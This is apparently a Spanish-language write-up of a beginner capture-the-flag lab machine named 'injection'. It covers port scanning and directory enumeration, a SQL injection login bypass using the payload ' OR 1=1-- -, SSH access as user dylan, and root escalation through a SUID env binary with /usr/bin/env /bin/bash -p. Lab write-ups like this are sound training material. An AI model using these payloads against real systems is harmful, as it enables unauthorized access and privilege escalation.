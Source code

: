 Esta es una máquina catalogada como muy fácil. Para desplegarla ahí que utilizar el comando:
```
sudo su bash auto_deploy.sh injection.tar
```
Luego escaneamos el objetivo:
```
nmap -p- -sS -sC -sC -Pn --min-rate 5000 172.17.0.2
```
Descubrimos que esta el puerto 22 abierto corriendo el servicio ssh y el puerto 80 corriendo el servicio http. El servicio ssh se encuentra en una versión muy actualizada como para encontrar un exploit así que se opta por ver la ip en nuestro buscador. Lo primero que vemos es una imagen con un kinder sorpresa, al hacer una enumeración de subdominios con gobuster y un directorio de seclists encontramos un subdominio index.php y config.php.
![[1]](injection1.png)
Probando las páginas encontramos una página para introducir usuario y contraseña.
![[2]](injection2.png)
![[3]](injection3.png)
Encontramos una vulnerabilidad que puede ser bypasseada con un Bypass autentication. Al buscar como explotar sqlinjection sal la manera más sencilla:

```
' OR 1=1-- -
```
Lo que cambiaría la sentencia sql de:
```
SELECT * FROM usuarios WHERE usuario = 'usuario' AND contraseña = 'contraseña'; 
```
a :
```
SELECT * FROM usuarios WHERE usuario = '' OR 1=1-- - AND contraseña = 'cualquier cosa';

```
![[4]](injection4.png)
Con  esto nos damos cuenta que el usuario dylan tiene acceso a la máquina ssh con la contraseña.
A tener en cuenta que esto al momento de entrar tuve problemas con fingerprint de ssh. Para solucionarlo use:
```
ssh-keygen -f/root/.ssh/known_hosts -R 172.17.0.2
```
Una vez solucionado este problema podemos entrar con las credenciales.
![[5]](injection5.png)
Sabemos por GTFO bins que podremos ejecutar en el directorio env una bash para quedar como root.Una vez ejecutemos el comando: 
```
which env
```
Para saber donde queda el directorio env de la máquina y luego ejecutaremos:
```
/usr/bin/env /bin/bash -p
```
Con este comando nos encontraremos loggeados como root.
![[6]](injection6.png)
Ya con esto hemos acabado la máquina injection.
